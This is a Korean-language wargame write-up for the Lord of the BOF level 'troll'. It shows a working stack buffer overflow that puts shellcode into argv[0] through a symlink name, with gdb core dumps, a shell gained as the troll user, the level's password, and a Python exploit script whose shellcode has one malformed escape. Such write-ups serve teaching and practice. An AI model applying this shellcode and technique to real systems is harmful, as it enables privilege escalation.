 ```yaml
---
title: "[LOB]Level08. troll"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180829
modify_date: 2019-11-13
article_header:
  type: cover
  image:
    src: 
---
```


[+ Check argc](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	// here is changed
	if(argc != 2){
		printf("argc must be two!\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// one more!
	memset(argv[1], 0, strlen(argv[1]));
}
```

-----

### 0x01. Analysis

 argc의 개수를 2로 정해졌으므로, argv[2]를 사용 하지 못한다.

buffer내용도 0으로 초기화 되며, argv[1]를 이용해서 argv[2]를 덮으려고 해도 길이가 48을 넘어 갈 수 없다.

그리고 argv[1]에 넣은 만큼 0으로 초기화 된다.



트롤 맞네... 😩😫



초기화 안된 영역은 argv[0]영역(실행파일 이름) 밖에 없다.

따라서 파일 이름에 쉘코드를 넣어주어야 한다.

실제 스택에 올라가는 주소를 확인 하기 위해 `troll`파일을 `aroll`파일로 복사한 후 심볼릭 링크를 설정하였다.

```
[orge@localhost orge]$ ln -s aroll `python -c 'print "A"*50+"S"*48+"A"*32'`
```

- `A` : 앞 50byte, 뒤 32byte, NOP Code 들어갈 부분 (마지막에 NOP코드를 넣지 않는 경우 제대로 쉘코드가 실행 안되는 경우가 있다.)
-  `S` : 48byte ShellCode 들어갈 부분

이제 만든 심볼릭 링크를 이용하여 실행하여 본다. (core를 생성하자)

```
[orge@localhost orge]$ ./`python -c 'print "A"*50+"S"*48+"A"*32'` `python -c 'print "\x90"*44+"\xbf\xbf\xbf\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜옜
Segmentation fault (core dumped)
```

core를 확인해보자.

```
[orge@localhost orge]$ gdb -c core
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux".
Core was generated by `./AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASSSSSSSSSSSSSSSSSSSSSSSSSSS'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
```

RET에 정상적으로 `0xbfbfbfbf`가 들어간 것을 확인 할 수 있다.

```
(gdb) x/100x $esp
0xbffffc50:     0x000001fb      0x00000010      0x0f8bfbff      0x0000000f
0xbffffc60:     0xbffffc8c      0x00000000      0x00000000      0x00000000
0xbffffc70:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffc80:     0x00000000      0x00000000      0x00000000      0x36383669
0xbffffc90:     0x412f2e00      0x41414141      0x41414141      0x41414141
0xbffffca0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x53535341      0x53535353      0x53535353
0xbffffcd0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffce0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffcf0:     0x53535353      0x41414153      0x41414141      0x41414141
0xbffffd00:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd10:     0x41414141      0x00000041      0x00000000      0x00000000
0xbffffd20:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffd30:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffd40:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb)
```

스택에서 argv[0]부분의 주소를 확인해보면 `0xbffffca0` 근처 부분에 `A`값들이 들어간 것을 확인 할 수있다.

앞서 말한것 처럼 `A`가 들어가는 곳은 NOP Code가 들어가게 되고 `S`가 들어가는 곳은 Shell Code가 들어가는 공간이다.

> 왜 core 덤프로 확인할 때는 실제 NOP Code와 Shell Code를 넣지 않고 'A'와 'S'를 넣었을까?
>
> 실제 NOP코드와 Shell Code를 넣어서 확인하다 보면 터미널에 글씨들이 깨지는 현상이 일어날 때가 있다. 이를 방지하기 위해 공간만 할당하고 일반적인 문자를 넣어 확인한 것이다.

주소를 확인하였으니 실제 `troll` 바이너리를 심볼릭 링크로 걸고 Exploit을 해보자.



```
'\x2f'없는 shell(48byte) = 
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

> `\x2f`는 `/` 에 해당되는 Hex Code이다. 따라서 Shell Code에 `\x2f`가 들어가게 되면 심볼릭 링크하는 과정에서 `/`로 인식하게 된다. 디렉토리 경로를 나눌때 `/`를 이용하기 때문.

-----

### 0x02. Exploit

```
[orge@localhost orge]$ ln -s troll `python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80 \xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a \xe2\x9a\xb1\x0c\xce\x81"+"\x90"*32'`
```

이제 `A`와 `S`가 아닌 실제 Code들을 심볼릭 링크 이름으로 설정한다.



```
[orge@localhost orge]$ ./`python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x 75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\x b1\x0c\xce\x81"+"\x90"*32'` `python -c 'print "\x90"*44+"\xa0\xfc\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱좢
풺ash$ id
uid=507(orge) gid=507(orge) euid=508(troll) egid=508(troll) groups=507(orge)
bash$ my-pass
euid = 508
aspirin
bash$
```

설정한 심볼릭 링크 이름으로 troll바이너리를 실행한다.

buffer 배열의 40byte와 SFP 4byte를 NOP Code로 덮어씌우고 RET부분에 argv[0] 영역으로 설정하여 Shell Code가 실행되는 것을 확인할 수 있다.

-----

### 0x03. 정리

해당 문제는

- argv[0]와 argv[1]만을 사용
- argv[1]의 길이는 48의 길이 제한
- RET의 시작주소는 `\xbf`로 고정
- 환경변수 초기화
- buffer배열 초기화
- argv[1] 스택 영역 초기화

보호기법이 적용된 문제이다.

이런경우는 **심볼릭 링크를 이용**하여 argv[0]에 Shell Code를 넣어 해결할 수 있음을 알게 해주는 문제이다.

-----

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

shellcode = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\x\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

target = "\x90"*100 + shellcode
#target = "A"*100+"S"*48

shellcode_addr = 0xbffffc78

payload = "\x90"*44
payload = append(p32(shellcode_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----